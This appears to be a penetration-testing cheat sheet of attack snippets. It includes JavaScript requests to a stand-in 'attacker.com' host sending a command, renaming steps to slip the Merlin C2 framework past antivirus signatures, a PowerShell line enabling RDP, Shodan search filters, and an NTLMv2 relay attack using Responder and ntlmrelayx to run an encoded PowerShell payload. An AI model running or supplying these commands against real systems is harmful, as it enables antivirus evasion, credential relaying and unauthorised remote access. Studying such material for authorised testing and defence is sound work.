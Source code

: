 ```javascript
var xhr = new XMLHttpRequest();
xhr.open("GET", "https://attacker.com", false); // false means synchronous request
xhr.setRequestHeader("Content-Type", "application/json");
xhr.send(null);

/* ---- POST Request with URL Form Data ---- */
var xhr = new XMLHttpRequest();
xhr.open("POST", 'https://attacker.com/exploit', true);
xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
xhr.send("cmd=ls");
```
### Merlin C2 (90%) Antivirus Bypass Static Signatures
```bash
find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/ExecuteShell/RunCmd/g'
find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/executeShell/runCmd/g'
find . -name '*.go' -type f -print0 | xargs -0 sed -i 's/\/Ne0nd0g\/merlin/\/author\/c&c/g'
sed -i 's/\/Ne0nd0g\/merlin/\/author\/c&c/g' go.mod
```
### Enabling RDP with PowerShell
```powershell
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\' -Name 'fDenyTSConnections' -Value 0
```
### Extract All Links from Web App Page
```javascript
var urls = [];
for (var i = 0; i < document.links.length; i++) {
    urls.push(document.links[i].href);
}
var uniqUrls = new Set(urls);
console.log(Array.from(uniqUrls.values()));
```
### Shodan Search Filter Examples
```yaml
product:Apache
hostname:google.com,amazon.com
http.html:Apache			# search in HTML text for Apache
http.component:bootstrap
ssh port:22,3333
ssh -port:22				# search SSH servers running on non-standard port
city:"new york"
org:"google"
cloud.provider:"amazon"
ip:8.8.8.0/24,1.1.1.0/24
```
### NTLMv2 Relay Attack
```
cme smb 10.10.10.0/24 --gen-relay-list ntlm-targets.txt

vim Responder.conf

[Responder Core]
; Servers to start
...
SMB = Off     # Turn this off
HTTP = Off    # Turn this off

sudo ./Responder.py -I eth0
impacket-ntlmrelayx -tf ntlm-targets.txt -c 'powershell -noP -w 1 -enc YmFzZTY0LWVuY29kZWQtcmV2ZXJzZS1zaGVsbC1wYXlsb2FkLWdvZXMtaGVyZQ=='
```